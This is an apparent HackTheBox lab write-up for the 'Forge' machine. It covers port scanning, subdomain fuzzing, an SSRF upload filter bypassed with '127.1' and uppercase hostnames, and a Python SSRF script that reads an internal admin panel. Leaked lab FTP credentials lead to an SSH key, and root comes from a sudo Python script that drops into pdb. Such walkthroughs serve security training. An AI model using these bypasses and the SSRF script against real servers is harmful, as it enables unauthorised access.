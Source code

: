 ![](forge_banner.png)

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="https://www.hackthebox.eu/badge/image/391067"></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.11.111 forge.htb

**nmap scan:**
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 4f:78:65:66:29:e4:87:6b:3c:cc:b4:3a:d2:57:20:ac (RSA)
|   256 79:df:3a:f1:fe:87:4a:57:b0:fd:4e:d0:54:c6:28:d9 (ECDSA)
|_  256 b0:58:11:40:6d:8c:bd:c5:72:aa:83:08:c5:51:fb:33 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://forge.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

http server redirect to: `forge.htb`

![](screenshots/web-page.png)

Webapp have only file upload funcanility

![](screenshots/upload-page.png)

There are 2 options for file uploading.
* Local file from filesystem.
* Remote file form a url.

And uploaded file are stored in the `/uploads/` direcotry with random file name withut any file extension. Only images get renders and all other file renders as plain text.

# Foothold

## SSRF

file upload from remote url looks interesting.
* There is a hidden parameter `remote` in url-file-upload post request contains value `1`.
* server feching urls with python requests module, get form nc listener.

      curl -s -X 'POST' --data-binary 'url=http://127.1:21/&remote=1' 'http://forge.htb/upload'

  ![](screenshots/server-url-req.png)

* localhost is blacklisted but can be bypasswd with `127.1` and this can lead to SSRF(?).
* for bad urls server throughing errors and that way we can do port scan on local host.
* hostname `forge.htb` is also blocked but can be bypassed by using uppercase character: `FORGE.htb`

Running Intruder to bruteforce port and found ftp server port `21`.
```bash
❯ curl -s -X 'POST' --data-binary 'url=http://127.1:21&remote=1' 'http://forge.htb/upload' | grep '<strong>'
<strong>An error occured! Error : ('Connection aborted.', BadStatusLine("220 Forge's internal ftp server\r\n"))</strong>
```

but `ftp://` protocol is not allowed from url parameter.
```bash
❯ curl -s -X 'POST' --data-binary 'url=ftp://127.1:21&remote=1' 'http://forge.htb/upload' | grep '<strong>'
<strong>Invalid protocol! Supported protocols: http, https</strong>
```

still nothing can do with information.

Fuzzing for subdomain, found `admin.forge.htb`.
```bash
❯ ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -H "Host: FUZZ.forge.htb" -u http://10.10.11.111 -ac -v -c

# ... [snip] ...

[Status: 200, Size: 27, Words: 4, Lines: 2, Duration: 617ms]
| URL | http://10.10.11.111
    * FUZZ: admin
```

But admin only accessable from localhost
```bash
❯ curl -s http://admin.forge.htb
Only localhost is allowed!
```

But we can access it with ssrf from `url` parameter in `/upload` and view response from uploaded file in `/uploads/` directory.

Little python script to automate file upload and read.
```py
import re
import sys
import html
import requests as r

url = 'http://forge.htb/upload'


def ssrf(ssrf_url):
    data = {'url': f'http://{ssrf_url}', 'remote': 1}
    rspn = r.post(url, data=data)
    if 'File uploaded successfully' in rspn.text:
        ssrf_rspn_file = re.findall(r'href="(.*?)"', rspn.text)[4]
        ssrf_rspn = r.get(ssrf_rspn_file)
        print(ssrf_rspn.text)
    else:
        error = re.findall(r'<strong>(.*?)</strong>', rspn.text)[0]
        print(html.unescape(error))


ssrf('127.0.0.1')
# ssrf(sys.argv[1])
```

With ssrf we Get access to admin panel.
```html
❯ python ssrf.py admin.FORGE.htb
<!DOCTYPE html>
<html>
<head>
    <title>Admin Portal</title>
</head>
<body>
    <link rel="stylesheet" type="text/css" href="/static/css/main.css">
    <header>
            <nav>
                <h1 class=""><a href="/">Portal home</a></h1>
                <h1 class="align-right margin-right"><a href="/announcements">Announcements</a></h1>
                <h1 class="align-right"><a href="/upload">Upload image</a></h1>
            </nav>
    </header>
    <br><br><br><br>
    <br><br><br><br>
    <center><h1>Welcome Admins!</h1></center>
</body>
</html>
```

There are 2 endpoints in admin subdomain `/announcements` and `/upload`.

Got some interesting information from `/announcements`. 
```html
❯ python ssrf.py 'admin.FORGE.htb/announcements'
<!DOCTYPE html>
<html>
<head>
    <title>Announcements</title>
</head>
<body>
    <link rel="stylesheet" type="text/css" href="/static/css/main.css">
    <link rel="stylesheet" type="text/css" href="/static/css/announcements.css">
    <header>
            <nav>
                <h1 class=""><a href="/">Portal home</a></h1>
                <h1 class="align-right margin-right"><a href="/announcements">Announcements</a></h1>
                <h1 class="align-right"><a href="/upload">Upload image</a></h1>
            </nav>
    </header>
    <br><br><br>
    <ul>
        <li>An internal ftp server has been setup with credentials as user:heightofsecurity123!</li>
        <li>The /upload endpoint now supports ftp, ftps, http and https protocols for uploading from url.</li>
        <li>The /upload endpoint has been configured for easy scripting of uploads, and for uploading an image, one can simply pass a url with ?u=&lt;url&gt;.</li>
    </ul>
</body>
</html>
```

* Ftp creds: `user:heightofsecurity123!`
* admin `/upload` allows ftp protocol.
* and fileupload from admin `/upload` can be done with `/upload?u=<url>`

So we can now access to ftp server from admin `/upload` endpoint with `/upload?u=ftp://user:heightofsecurity123!@127.1:21`.

And get ftp share.
```bash
❯ python ssrf.py 'admin.FORGE.htb/upload?u=ftp://user:heightofsecurity123!@127.1:21'
drwxr-xr-x    3 1000     1000         4096 Aug 04 19:23 snap
-rw-r-----    1 0        1000           33 Sep 23 04:17 user.txt
```

This is an user's home directory. Try to get ssh key

![](screenshots/user-ssh.png)

Get "User" shell on the box with ssh key.

# Privesc

## Python pdb Module

User have some sudo rights
```bash
user@forge:~$ sudo -l
Matching Defaults entries for user on forge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user may run the following commands on forge:
    (ALL : ALL) NOPASSWD: /usr/bin/python3 /opt/remote-manage.py
```

This script have 2 interesting things

![](screenshots/python-pdb.png)

One is a passowrd `secretadminpassword` for connecting to the socket. Another is a exception `pdb.post_mortem(e.__traceback__)`

[pdb](https://docs.python.org/3/library/pdb.html): The module pdb defines an interactive source code debugger for Python programs.

And this exception occurs if socket quit unintended way.

Run script with sudo and connect to the socket from another terminal, Enter passowrd then `Ctrl+c`, This will drop script to pdb shell where we can run system command with python `os` module as root.

![](screenshots/rooted.png)
